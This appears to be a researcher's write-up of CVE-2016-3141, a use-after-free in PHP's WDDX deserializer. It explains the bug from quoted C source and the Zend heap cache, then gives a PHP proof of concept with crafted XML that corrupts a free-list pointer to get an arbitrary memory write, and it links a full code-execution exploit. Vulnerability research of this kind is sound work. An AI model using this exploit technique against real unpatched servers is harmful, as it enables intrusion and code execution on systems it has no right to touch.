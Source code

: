 # CVE-2016-3141

## 1. Vulnerability Detail.

Use-after-free vulnerability in wddx.c in the WDDX extension in PHP before 5.5.33 and 5.6.x before 5.6.19 allows remote attackers to cause a denial of service (memory corruption and application crash) or possibly have unspecified other impact by triggering a wddx_deserialize call on XML data containing a crafted var element.	

## 2. Overview Bug.

This a User After Free bug, occured when wddx try to process XML data.
Take look at this code in function **php\_wddx\_deserialize_ex**. When wddx\_deserialize($xml) some XML data, php will call this function and then set some functions to handle xml tag and data.

```C
	XML_SetUserData(parser, &stack);
	XML_SetElementHandler(parser, php_wddx_push_element, php_wddx_pop_element);
	XML_SetCharacterDataHandler(parser, php_wddx_process_data);
```

Function `php_wddx_push_element` create a entry for a tag as you can see in this snipped. For example when you input 
`<string>Hello World</string>` if they hit open tag _<string>_ will call php\_wddx\_push\_element to create an st_entry tag that store information of a tag, let take a look some snipped code below.

```C
static void php_wddx_push_element(void *user_data, const XML_Char *name, const XML_Char **atts)
{
	st_entry ent;
	wddx_stack *stack = (wddx_stack *)user_data;
	
	----SNIP----
	else if (!strcmp(name, EL_STRING)) {
		ent.type = ST_STRING;
		SET_STACK_VARNAME;
	
		ALLOC_ZVAL(ent.data);
		INIT_PZVAL(ent.data);
		Z_TYPE_P(ent.data) = IS_STRING;
		Z_STRVAL_P(ent.data) = STR_EMPTY_ALLOC();
		Z_STRLEN_P(ent.data) = 0;
		wddx_stack_push((wddx_stack *)stack, &ent, sizeof(st\_entry));
	} 
	----SNIP----
}
```

*SET\_STACK_VARNAME* is a procedure is define below. This procedure is simple check stack->varname of a tag if they not NULL thay will clone this stack->varname and then free it.

```C
#define SET_STACK_VARNAME							\
		if (stack->varname) {						\
			ent.varname = estrdup(stack->varname);	\
			efree(stack->varname);					\
			stack->varname = NULL;					\
		} else										\
			ent.varname = NULL;						\
```

The bug happened in `php_wddx_pop_element`. When xml close a tag of var tag, it will free **varname** of this tag, and this free pointer still store in **stack->varname**. For example, if you create a var like `<var name='UAF'></var>`, php_wddx_push_element will create a struct that store this *var* tag then when you closed this tag the free it but forget to set this `stack->name = NULL` or decrease `stack->top`, after that if you create a other tag such as `<string>` the function `SET_STACK_VARNAME` will reuse this free pointer.

```C
static void php_wddx_pop_element(void *user_data, const XML_Char *name)
{
	# ***SNIP***
	} else if (!strcmp(name, EL_VAR) && stack->varname) {
		efree(stack->varname);
	}
	# ***SNIP***
}
```

## 3. The Exploitation

When i first saw this bug, i thought "can't i turn this bug to code excution ?". First, i have to understand how zend heap implement, let see function `_zend_mm_alloc_int` in zend_alloc.c below

```C
if (EXPECTED(ZEND_MM_SMALL_SIZE(true_size))) {
		size_t index = ZEND_MM_BUCKET_INDEX(true_size);
		size_t bitmap;
		if (UNEXPECTED(true_size < size)) {
			goto out_of_memory;
		}
#if ZEND_MM_CACHE
		if (EXPECTED(heap->cache[index] != NULL)) {
			/* Get block from cache */
#if ZEND_MM_CACHE_STAT
			heap->cache_stat[index].count--;
			heap->cache_stat[index].hit++;
#endif
			best_fit = heap->cache[index];
			heap->cache[index] = best_fit->prev_free_block;
			heap->cached -= true_size;
			ZEND_MM_CHECK_MAGIC(best_fit, MEM_BLOCK_CACHED);
			ZEND_MM_SET_DEBUG_INFO(best_fit, size, 1, 0);
			HANDLE_UNBLOCK_INTERRUPTIONS();
			return ZEND_MM_DATA_OF(best_fit);
 		}
```
If we malloc chunk size is small (less than 256 bytes) zend\_alloc will use *heap->cache* , is a free chunk list that stored many small free chunk linked list, this *heap->cache* like malloc *fast_bin*. If some how we can overwrite best\_fit->prev\_free\_block pointer with own address then zend\_alloc again and we can use it address to write somewhere in memory.

To do that, i will create wddx xml below:

```php
$xml = <<<EOF
<?xml version='1.0' ?>
<!DOCTYPE wddxPacket SYSTEM 'wddx_0100.dtd'>
<wddxPacket version='1.0'>
	<array>
		<binary>HERE</binary> # (1)
		<var name='XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'></var> #(2)
		<binary>REPLACE</binary> # (3)
		<var name='SUCK'></var> # (4)
		<boolean value='a'/>
		<boolean value='true'/>
	</array>
</wddxPacket>
EOF;

$binary_value = base64_encode(str_repeat("A",32));

$xml = str_replace("HERE",$binary_value,$xml);
$xml = str_replace("REPLACE",base64_encode(str_repeat("Z",64)),$xml);

$wddx = wddx_deserialize($xml); 

foreach($wddx as $k => $v){
	$k = "".str_repeat("C",6); (5)
	
	$t = (string)$v; (6)
	$g = (string)$v; (7)
}
```

1. Create 32 bytes (chunk_a) with binary tag because this tag allow you to input non-printable character.
2. Create a name with same size as first binary tag and the make this name value is freed (chunk_b).
3. Create a padding chunk with 64 bytes (chunk_c).
4. Create a name with 8 bytes and then free it (chunk_d).
5. After deserialize this $xml, i make a foreach loop throught this object in the first loop i have $k now point to chunk\_b is freed, $v now point to chunk\_a, i use operator *concat\_function* to overwrite best\_fit->prev\_free_block with own data.
6. Use php string casting which call to estrncpy to create a new chunk (chunk_e) now to point to chunk\_b and make heap->cache[index] store own value.
7. Ok do that again estrncpy($v,32) ($v=$binary\_value) first zend_alloc again and we have crash $r12 = 0x4343434343, if we replace this value with another address, estrncpy will happy to call memcpy(r12,v,size) by that we can overwrite anywhere we want.

![Crash](./php_crash.png)

You can see my full exploit here [peter_code_execute.php](./peter_code_execute.php) (Tested on Ubuntu 14.04.4 x86_64 - PHP 5.5.9-1ubuntu4.14).

Finally, i have turned this bug to Code Execution successfully.
![Result](./php_result.png)


# 4. Preferences

[http://www.cvedetails.com/cve/CVE-2016-3141/](http://www.cvedetails.com/cve/CVE-2016-3141/).

[https://bugs.php.net/bug.php?id=71587](https://bugs.php.net/bug.php?id=71587).